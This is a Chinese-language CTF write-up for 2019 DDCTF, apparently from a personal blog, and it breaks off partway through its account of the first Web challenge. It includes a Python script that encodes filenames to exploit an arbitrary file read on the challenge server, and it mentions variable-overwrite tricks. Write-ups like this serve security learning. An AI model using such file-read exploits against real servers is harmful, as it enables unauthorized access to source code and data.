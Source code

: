 ```yaml
---
title: 2019-DDCTF-writeup
date: 2019-04-19 14:00:12
toc: true
tags: 
- 2019-DDCTF-writeup
categories: 
- ctf 
---
```

这次比赛一共解出3题Web、1题Misc的流量分析和1个签到，总共拿到561分。
排名目前在224名。因为主办方现在还在ban掉作弊选手，所以还有上升空间（手动滑稽～）
![dd1](https://user-images.githubusercontent.com/38073810/56410132-9da24600-62ae-11e9-8ee1-ed886764039f.png)
## Web解题思路
### 一、滴～
![dd2](https://user-images.githubusercontent.com/38073810/56410361-6da77280-62af-11e9-8ed8-e1207357f4b1.png)
靶机：http://117.51.150.246
知识点：任意文件读取、加解密、脑洞、extract变量覆盖
#### 1、打开靶机
![image](https://user-images.githubusercontent.com/38073810/56410583-266db180-62b0-11e9-95a0-dea35b9cf65c.png)
#### 2、在URL中发现可能为任意文件读取，但是文件名被加密，然后我们先去解密
![image](https://user-images.githubusercontent.com/38073810/56410957-a47e8800-62b1-11e9-9062-a6f42be9f51d.png)
经过Base64解密-->Base64解密-->Base16解密 得到原目录名flag.jpg
#### 3、构造index.php
{% codeblock lang:python %}
import base64
import requests

u = 'index.php'

jpg = base64.b64encode(base64.b64encode("".join("{:02x}".format(ord(c)) for c in u).encode('utf-8'))).decode('utf-8')

r = requests.get('http://117.51.150.246/index.php', params={'jpg': jpg})

print(r.url)
print(r.text)
{% endcodeblock %}
运行后发现被base64加密过的数据,解密后得到index.php源代码
![image](https://user-images.githubusercontent.com/38073810/56411544-af3a1c80-62b3-11e9-9ffb-753e66bc2444.png)
![image](https://user-images.githubusercontent.com/38073810/56411746-5ae36c80-62b4-11e9-9f72-bf47be8a1ef9.png)
审计发现config会被转换成！,然后构造尝试多次无果。所以暂时放弃了。
后来继续又看了遍代码，在注释里面发现一个博客，浏览后发现此篇文章并没有什么用，但是在推荐里面发现一篇有用的文章
![image](https://user-images.githubusercontent.com/38073810/56411959-29b76c00-62b5-11e9-9729-ca87df0be002.png)
![image](https://user-images.githubusercontent.com/38073810/56413773-27581080-62bb-11e9-926f-9dcdcb28d994.png)
#### 4、构造practice.txt.swp
{% codeblock lang:python %}
import base64
import requests
